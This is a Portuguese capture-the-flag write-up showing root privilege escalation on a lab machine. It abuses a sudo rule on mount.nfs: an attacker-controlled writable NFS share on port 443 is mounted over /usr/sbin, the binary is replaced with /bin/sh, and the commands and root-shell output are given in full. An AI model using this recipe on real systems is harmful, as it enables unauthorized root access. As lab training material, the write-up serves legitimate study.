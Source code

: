 O `/usr/sbin/mount.nfs` nos permite montar um `NFS` compartilhamento.
A exploração será por meio desse montagem do `NFS` compartilhado e gravável.
E com isso substituirá o `/usr/sbin/` -> `/usr/sbin/mount.nfs` por qualquer coisa que quisermos, e ainda poderíamos executá-lo como o `root`

> [!Pacote importante para instalar]
> nfs-kernel-server

A Criação de um diretório para compartilhar e dar as permissões totais
```
mkdir /tmp/share
sudo chown nobody:nogroup /tmp/share
sudo chmod 777 /tmp/share
```

Como existe um firewall em execução. Então é só configurar o `NFS` (Máquina do atacante) servidor para rodar em uma porta permitida.

Podemos fazer isso modificando o `/etc/nsf.conf`

```
[nfsd]
port=443
```

Logo após, adicionando nosso diretório ao `/etc/exports`

`sudo bash -c 'echo "/tmp/share 10.0.0.0/8(rw)" >> /etc/exports'`

Exportando o compartilhamento e reiniciando o `NFS` servidor para aplicar as alterações de configuração

```
sudo exportfs -a
sudo systemctl restart nfs-kernel-server
```

Com o servidor já montado agora é partir para a máquina da vítima, podemos montá-la `/usr/sbin`

`jojo@tonhotel:~$ sudo /usr/sbin/mount.nfs -o port=443 10.13.72.32:/tmp/share /usr/sbin`

Aqui mostra que o `/usr/sbin` é gravável

```
jojo@tonhotel:~$ ls -la /usr/sbin
total 8
drwxrwxrwx  2 nobody nogroup 4096 Jul 20 03:36 .
drwxr-xr-x 14 root   root    4096 Aug 31  2022 ..
```

Substituindo o `/usr/sbin/mount.nfs` -> `/bin/sh`
```
jojo@tonhotel:~$ cp /bin/sh /usr/sbin/mount.nfs
jojo@tonhotel:~$ ls -la /usr/sbin
total 136
drwxrwxrwx  2 nobody nogroup   4096 Jul 20 03:46 .
drwxr-xr-x 14 root   root      4096 Aug 31  2022 ..
-rwxr-xr-x  1 jojo   jojo    129816 Jul 20 03:46 mount.nfs
```

E por fim, podemos executá-lo usando o `sudo` para obter um shell como `root`

```
jojo@tonhotel:~$ sudo /usr/sbin/mount.nfs
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
46 /root/root.txt
```